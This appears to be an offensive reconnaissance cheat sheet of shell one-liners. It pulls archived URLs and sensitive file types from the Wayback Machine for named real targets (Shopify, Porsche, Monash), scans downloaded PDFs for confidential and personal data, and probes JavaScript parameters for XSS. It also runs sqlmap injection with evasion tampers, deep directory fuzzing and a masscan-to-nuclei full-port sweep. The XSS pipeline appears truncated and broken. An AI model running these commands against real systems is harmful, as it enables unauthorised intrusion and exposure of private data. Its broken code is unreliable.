 [https://web.archive.org/cdx/search/cdx?url=target.com/*&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=target.com/*&output=text&fl=original&collapse=urlkey)
For subdomains (wildcard search) [https://web.archive.org/cdx/search/cdx?url=*.pci.shopifyinc.com/*&output=text&fl=original&collapse=urlkey&filter=statuscode:200](https://web.archive.org/cdx/search/cdx?url=*.pci.shopifyinc.com/*&output=text&fl=original&collapse=urlkey&filter=statuscode:200)

For specific extesnion [https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|git|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|apk|msi|env|dmg|tmp|crt|pem|key|pub|asc|js)$](https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.\(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|git|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|apk|msi|env|dmg|tmp|crt|pem|key|pub|asc|js\)$)

Find sensitive Data in PDFs cat output.txt | grep -Ea '\.pdf' | while read -r url; do curl -s "$url" | pdftotext - - | grep -Eaiq '(internal use only|confidential|strictly private|personal & confidential|private|restricted|internal|not for distribution|do not share|proprietary|trade secret|classified|sensitive|bank statement|invoice|salary|contract|agreement|non disclosure|passport|social security|ssn|date of birth|credit card|identity|id number|company confidential|staff only|management only|internal only)' && echo "$url"; done

  

💰 👍 Find hidden params in javascript files  

assetfinder *.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"


getting full class
for i in $(seq 0 255); do
  echo "212.9.180.$i"
done > ips_212_9_180.txt


check which on belong
cat ips_84_21.txt ips_212_9_180.txt | sort -u   | httpx -ports "80,443,8080,8000,3000,8443,8888" -silent -timeout 10 -status-code -title -web-server -threads 100 | grep -i porsche   | awk '{print $1}'   | sed 's/\[//;s/\]//'   | sort -u > porsche_ips.txt


$ sqlmap -r reound.txt  --flush-session --dbs --banner --current-user --dbms=mysql --technique=BT  --time-sec=5 --level=3 --risk=2  --tamper=space2comment,randomcase --batch --threads=2 -v 3 --ignore-code 401

deep fuzz 

└─$ dirsearch -u https://dev.astro.monash.edu/ -t 10 --deep-recursive  --crawl --full-url

sudo masscan -iL hosts -p 1-65535 --exclude 255.255.255.255 --rate 100000 --output-format json --output-filename scan-results.json && cat scan-results.json | sed -e '/^\[/d' -e '/^\]/d' -e 's/,$//' | jq -r '[.ip, .ports[0].port] | @tsv' | sed 's/\t/:/' | sort -u > alive-hosts && httpx -l alive-hosts -o http_hosts.txt && nuclei -l http_hosts.txt -o six_CIDR.txt
